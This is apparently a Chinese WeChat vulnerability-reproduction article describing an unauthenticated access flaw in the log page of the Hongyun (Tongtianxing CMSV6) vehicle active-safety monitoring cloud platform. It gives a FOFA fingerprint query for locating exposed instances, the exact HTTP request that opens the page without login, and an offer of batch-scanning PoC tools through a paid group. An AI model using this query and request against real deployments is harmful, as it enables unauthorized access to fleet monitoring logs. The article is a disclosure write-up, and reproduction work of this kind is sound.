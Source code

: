 #  鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement/logIndex.html存在未授权访问漏洞   
南风徐来  南风漏洞复现文库   2024-04-03 23:53  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement/logIndex.html简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
鸿运(通天星CMSV6车载)主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。  
## 2.漏洞描述  
  
鸿运主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement/logIndex.html存在未授权访问漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
鸿运(通天星CMSV6车载)主动安全监控云平台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyDGZ359FCzfPGzRsgteVGtm0cdQzVIdqg4g22QeyKUyfILA6p8BBCOQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
鸿运(通天星CMSV6车载)主动安全监控云平台LoggerManagement/logIndex.html存在未授权访问漏洞  
## 4.fofa查询语句  
  
body="./open/webApi.html"||body="/808gps/"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/808gps/LoggerManagement/logIndex.html  
  
漏洞数据包：  
```
GET /808gps/LoggerManagement/logIndex.html HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyNDQrd5ugFnzYWZOmClowXtcAzp5Zjbhx0sA5qs8Wajar85jibE2BuxQ/640?wx_fmt=jpeg&from=appmsg "")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现115 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyGnJVszKcITkGn5TiaianibjKFeN6oyJTtnONJpFAtf2zEq15elia0oiad8Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyC68nAVJjpK4cAAYojCErxSMd8xIkJZsuib9zQL88oC9d1c8KwKJicPXg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfy1GNXxXUYF10SJoMibmibEqjxj5nxibwTbyrN7QIUMWn3Jnl7riad2Jt4Zw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyoHoRIdFTFVYFWcWkSq6FLRl3oibq6LMZmV4uficnfmPJJUEdyNy8K2tw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfy9UOialtQtGcehWabic6QvUlJekSSaasBlW07BmqGcYhPofvIejAkAK9Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfytU9PT0ojicRtL1lCUm2ktEuAmazVZicMaAVGlp2ibvY6NezVlSf2stzyg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyPfmEs2IWEaiaPOkeqicc0on2Hpw3xKYK23icsZ7op4beenAK7CMPAqjoA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商打补丁或者升级到最新版本。  
## 8.往期回顾  
  
  
[联达OA UpLoadFile.aspx接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485971&idx=2&sn=1eb9e5a46400b4cc7397129578694b26&chksm=974b8714a03c0e028917c431a4e31adbf529ba070ed3891e9552754244925d36f50c95d18947&scene=21#wechat_redirect)  
  
  
